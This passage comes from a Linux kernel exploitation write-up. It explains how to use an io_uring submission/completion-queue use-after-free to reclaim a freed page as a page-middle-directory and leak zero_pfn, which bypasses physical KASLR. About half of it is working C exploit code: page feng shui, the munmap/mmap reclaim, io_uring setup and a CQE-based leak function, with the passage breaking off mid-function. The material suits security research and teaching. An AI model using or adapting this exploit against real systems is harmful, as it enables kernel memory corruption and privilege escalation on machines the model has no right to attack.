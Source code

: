 # Setup dirty pagetable

Once we have both SQ and CQ mapped to physical contiguous pages, we can free the second one and reclaim it as whatever we choose to target; I will target a PMD in order to show the novel technique.

To perform a read-after-free the swapped physical page must come from the SQ, meanwhile, for a write-after-free it must come from the CQ, because of the SQE->CQE copy of the user_data qword.


# Bypassing phys kASLR
We will start with the novel technique by leaking phys kASLR: we will use the read-after-free on a PMD to read the zero_pfn.

```c
// mmap PMD containing zeropfn  
mmap(IDT + OFFSETOF_IO_URING_SQE_UD /  8  * PAGE_SIZE, PAGE_SIZE, PROT_READ, 
						MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS | MAP_POPULATE,  -1,  0);  
```

The UAF'd page gets allocated as a PMD and the mapping we request must be read-only, and given that we also specify `MAP_POPULATE` we are forcing the kernel to map immediately a physical address. This behaviour correspond a first-time read access, which allocates the zero_pfn.

The we can just consume enough SQEs untill one overlaps with the PMD. The zero_pfn pte will get copied to the CQE which we can read.

```c
ul  leak_zeropfn(){
	// allocate physical contiguous pages for submission and completion queues
	ul  sq  =  feng_shui(SQ_ADDR, SQ_PAGES);
	ul  cq  =  feng_shui(CQ_ADDR, CQ_PAGES);

	// free boffed unmoveable page + remap address not to make pin_user_pages_fast fail
	munmap(sq+PAGE_SIZE, PAGE_SIZE);
	mmap(sq+PAGE_SIZE, PAGE_SIZE, PROT_ALL, MAP_FIXED  |  MAP_PRIVATE  |  MAP_ANONYMOUS  |  MAP_POPULATE, -1, 0);

	// mmap PMD containing zeropfn
	mmap(IDT  +  OFFSETOF_IO_URING_SQE_UD  /  8  *  PAGE_SIZE, PAGE_SIZE, PROT_READ,
									MAP_FIXED  |  MAP_PRIVATE  |  MAP_ANONYMOUS  |  MAP_POPULATE, -1, 0);
									// OFFSETOF_IO_URING_SQE_UD / 8 * PAGE_SIZE: align the pte with offsetof(struct io_uring_sqe, user_data) 

	// *&rings->sq.tail = ctx->sq_entries
	*(volatile  unsigned  int  *)(cq  +  4) =  SQ_ENTRIES;

	struct  io_uring_params  params  = {
		.flags  =  IORING_SETUP_NO_MMAP  |  IORING_SETUP_NO_SQARRAY,
		.sq_off  = {.user_addr  =  sq},
		.cq_off  = {.user_addr  =  cq}};
	int  uring_fd  =  syscall(__NR_io_uring_setup, SQ_ENTRIES, &params);

	// consume first sq page + 1 entry which will overlap with PMD -> zero_pfn
	memset(sq, 0, SQ_SIZE);
	for (int  i=0; i<PAGE_SIZE  /  sizeof(struct  io_uring_sqe) +  1; i++)
		syscall(__NR_io_uring_enter, uring_fd, 1, 0, 0, 0);

	ul  zero_pfn  = ((*(ul*) (cq  +
									(PAGE_SIZE  /  sizeof(struct  io_uring_sqe)) *
									(sizeof(struct  io_uring_cqe)) +  OFFSETOF_IO_RINGS_CQES)) &  PAGE_MASK) <<  1  >>  1;

	leak("zero_pfn", zero_pfn);

```
